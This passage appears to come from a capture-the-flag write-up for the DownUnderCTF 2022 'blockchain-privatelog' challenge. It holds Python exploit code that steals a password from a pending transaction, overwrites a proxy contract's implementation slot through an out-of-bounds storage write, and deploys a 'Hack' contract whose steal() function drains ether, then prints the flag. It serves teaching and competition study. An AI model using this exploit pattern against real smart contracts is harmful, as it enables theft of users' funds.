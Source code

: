 ```py
		logEntry, password, _ = decode_abi(['string', 'string', 'bytes32'], bytes.fromhex(tx.input[10:]))
		transact(f"contract_log.functions.createLogEntry('under the control', password, newHash)", gas_price=w3.eth.gas_price + 100)
		break

curr_nonce = w3.eth.get_transaction_count(account.address)
target_nonce = curr_nonce
sender_bytes = to_bytes(hexstr=account.address)
while True:
	addr_bytes = keccak(rlp.encode([sender_bytes, target_nonce]))[12:]
	target_address = to_checksum_address(addr_bytes)
	if int(target_address[-2:], 16) == 0x3e:
		break
	target_nonce += 1

_IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc
logIndex = 2 ** 256 - int(w3.solidityKeccak(['uint256'], [2]).hex(), 16) + _IMPLEMENTATION_SLOT
logEntry = f"{int(target_address, 16):064x}"[:-2]
tx = contract_log.functions.updateLogEntry(logIndex, 'A' * 31, 'password', newHash).build_transaction({
	'chainId': w3.eth.chain_id,
	'nonce': w3.eth.get_transaction_count(account.address),
	'gas': 1000000,
	'gasPrice': w3.eth.gas_price,
})
tx['data'] = tx['data'].replace('41' * 31, logEntry)    # 可能存在 UTF-8 无法编码的字符，因此不直接传入 logEntry，而是采用替换的方式
tx_hash = w3.eth.send_raw_transaction(account.sign_transaction(tx).rawTransaction).hex()
w3.eth.wait_for_transaction_receipt(tx_hash)

print(w3.eth.getStorageAt(proxy_addr, _IMPLEMENTATION_SLOT).hex())

curr_nonce = w3.eth.get_transaction_count(account.address)
while target_nonce > curr_nonce:
	transact(f"contract_log.functions.createLogEntry('under the control', 'password', newHash)")
	curr_nonce += 1

hack_source = """
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Hack {
    function steal() public {
        payable(msg.sender).transfer(100 ether);
    }
}
"""
_, hack_interface = compile_source(hack_source).popitem()
hack_contract = w3.eth.contract(abi=hack_interface['abi'], bytecode=hack_interface['bin'])
print(transact(f"hack_contract.constructor()", gas=hack_contract.constructor().estimateGas() * 2).contractAddress)

contract_hack = w3.eth.contract(address=proxy_addr, abi=hack_interface['abi'])
transact(f"contract_hack.functions.steal()")

print(requests.get(f'https://blockchain-privatelog-{base_id}.2022.ductf.dev/challenge/solve').content)
```

### Flag

> DUCTF{first_i_steal_ur_tx_then_I_steal_ur_proxy_then_i_steal_ur_funds}

[^1]: [ERC1967Upgrade - _IMPLEMENTATION_SLOT](https://github1s.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/proxy/ERC1967/ERC1967Upgrade.sol#L28)